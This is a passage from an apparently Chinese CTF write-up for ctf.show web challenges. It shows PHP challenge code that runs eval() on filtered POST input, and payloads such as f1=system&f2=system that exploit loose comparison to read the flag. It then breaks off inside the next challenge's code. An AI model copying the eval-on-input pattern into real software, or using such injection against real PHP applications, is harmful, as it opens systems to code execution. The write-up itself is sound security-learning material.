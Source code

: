 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}

```

[原文](https://ctf.show/writeups/743106)

需要`$f1($f2());`的返回值，或者是字母开头的字符串，或者是空数组，或者就是0，或者FLASE。

**payload1**： system(system())---> `f1=system&f2=system`

`string system( string $command[, int &$return_var] )`：成功则返回命令输出的最后一行，失败则返回 FALSE 。system()必须包含参数，失败返回FLASE；system('FLASE')，空指令，失败返回FLASE。

**payload2**： usleep(usleep())---> `f1=usleep&f2=usleep` usleep没有返回值。 所以intval参数为空，失败返回0

**payload3**： getdate(getdate())---> `f1=getdate&f2=getdate`

`array getdate([ int $timestamp = time()] )`：返回结果是array，参数必须是int型。所以getdate(getdate())---->getdate(array型)--->失败返回flase，intval为0。



#### web141

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
```